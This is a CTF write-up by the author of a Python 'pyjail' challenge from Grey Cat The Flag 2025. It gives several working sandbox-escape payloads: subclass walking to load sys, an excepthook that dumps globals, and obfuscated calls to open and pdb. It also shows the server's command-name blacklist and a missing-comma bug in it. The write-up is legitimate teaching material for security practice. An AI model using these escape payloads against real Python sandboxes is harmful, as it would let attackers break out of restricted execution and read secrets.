 # [MISC] Countle Training Centre

## Description
The Countle World Championships is coming! Time to step up your game and start training! It's just a measly 1,000,000 puzzles a day, anyone can do it.

Distrib: [Dockerfile](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/distrib/Dockerfile) [server.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/distrib/server.py) [countle_puzzle.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/distrib/countle_puzzle.py)

### Flag

`grey{4_w0r1D_c1As5_c0Un7L3_p1aY3r_1n_0uR_mId5t}`

## (Intended*) Solution Explantation

The intended solution is unfortunately not optimal, but I will do my best to explain it. Perhaps it might be useful for other pyjails in future.

### Solution

```python
(s:=().__class__.__base__.__subclasses__()[120]().load_module('sys'),s.__setattr__('excepthook',lambda *a:s.stdout.write(a[2].tb_frame.f_globals.__str__())),a)
```

### Part 0

```python
if (not match(r"[0-9+\-*/()]+", expr)):
    # incorrect format
elif (len(expr) > 160):
    # incorrect format
```

Firstly, we want to get past the regex, which is waaaaay to simple. We can simply wrap our solution with `()`. This also allows use to use the walrus operator to assign variables and reuse them where necessary.

### Part 1

Assuming the blacklist is treated at face value (foreshadow lol), we need to bypass that. There are many ways to do so in python.

Pre-python3.12, my go-to class to use is `<class 'warnings.catch_warnings'>`, but in python3.12 this was removed from the list of builtin classes (when running a script). Instead, we can use other classes like `<class '_frozen_importlib.BuiltinImporter'>`, `<class 'collections.abc.Sized'>` and more.

```python
s:=().__class__.__base__.__subclasses__()[120]().load_module('sys')
```

For this solution, we used `<class '_frozen_importlib.BuiltinImporter'>` to load/import the `sys` module, which is assigned to the variable `s`.

### Part 2

```python
s.__setattr__('excepthook',lambda *a:s.stdout.write(a[2].tb_frame.f_globals.__str__()))
```

Using the `__setattr__` function, we change the excepthook to a custom one. The excepthook is used to catch any uncaught exception. Usually, it will print out the exception information then exit the program. In this case, we want to use it to access the trace stack, which is the second param of the hook function.

```python
a[2].tb_frame.f_globals.__str__()
```

Ordinarily, we would be within (or above) the `eval` trace stack, which would not contain the flag since `eval` is runned with `{'FLAG':"no flag for you", "__builtins__": None}`. However, the `excepthook` is called outside of the `eval` and therefore has the flag variable.

We can get the current frame `.tb_frame` then obtain the global variables using `.f_globals`.

Lastly, since `print` is banned by the blacklist, we can substitute with `s.stdout.write`.

### Part 3

```python
a
```

Actually you still need to trigger an uncaught error, which is pretty simple. Here, a `NameError` is triggered since variable `a` is not defined.

```
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader 
object at 0x104ee0470>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 
'/Users/ngkayhian/Documents/ctf-writeups/Grey Cat The Flag 2025/Countle Training Centre/distrib/server.py', '__cached__': 
None, 'match': <function match at 0x104f0ab60>, 'exit': <built-in function exit>, 'sleep': <built-in function sleep>, 
'generateSolvablePuzzle': <function generateSolvablePuzzle at 0x104f9dda0>, 'format': <function format at 0x104f09620>, 
'banner': <function banner at 0x104f9d1c0>, 'goal': <function goal at 0x104fccd60>, 'menu': <function menu at 0x104fcce00>, 
'help': <function help at 0x104fccea0>, 'BLACKLIST': ['breakpoint', 'builtinscat', 'compile', 'dict', 'eval', 'exec', 
'getframe', 'help', 'import', 'input', 'inspect', 'open', 'os', 'sh', 'signalsubprocess', 'system'], 'blacklist': <function 
blacklist at 0x104fccf40>, 'checkAnswer': <function checkAnswer at 0x104fccfe0>, 'challenge': <function challenge at 
0x104fcd080>, 'FLAG': 'grey{4_w0r1D_c1As5_c0Un7L3_p1aY3r_1n_0uR_mId5t}', 'choice': 'S'}
```

### Oopsie

At this point, an astute reader might notice two weird items in the `BLACKLIST` - namely `'builtinscat'` and `'signalsubprocess'`.

Yes, I made a newbie coding error. And I only noticed it after reading a [writeup](https://0necloud.github.io/CTF-Writeups/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/#:~:text=Source%20Code%20Analysis) where the player found this "vulnerability".

```python
BLACKLIST = ['breakpoint', 
             'builtins' 'cat',        # missing comma
             'compile', 'dict', 'eval', 'exec', 'getframe',
             'help', 'import', 'input', 'inspect', 'open', 'os', 'sh', 
             'signal' 'subprocess',   # missing comma
             'system']
```

When defining the `BLACKLIST`, I was adding new blacklist words up until a few days before the qualifiers. On my very last addition, I added `'builtins'` and `'signal'`, but forgot to put the commas in. And evidently I didn't test the service.

What does this mean for the challenge? Since the `eval` is running with `"__builtins__": None`, it is still not as trivial as just accessing the python builtins, but it definitely opened up some avenues.

## Alternative Solutions (without explanation)

```python
0+(a:=().__class__.__base__.__subclasses__()[151].__len__.__globals__["__builtins__"],a["print"](a["op""en"]("/app/run").read()))

# by Leo (https://discord.com/channels/969232688521281606/1378292097685262377/1378715661890621501)
```

```python
().__class__.__base__.__subclasses__()[158]().__call__.__buil𝘵ins__[_:="__impor\x74__"]("pdb").set_trace()

# by hawke (https://discord.com/channels/969232688521281606/1378292097685262377/1378715771873529898)
```

## Thoughts

This was my first pyjail, and it is definitely quite crude. Half way through the quals, I realised that I accidentally left a debug code in the service and distribution. Thankfully due to my poor coding practice of using `_` as variable names, the debug code was rendered useless (otherwise it would reveal the flag upon solving 3 countle puzzles, LOL!).

Moving forward, I will definitely try to learn from my mistakes and explore more of python intricacies. Looking forward to writing another interesting pyjail.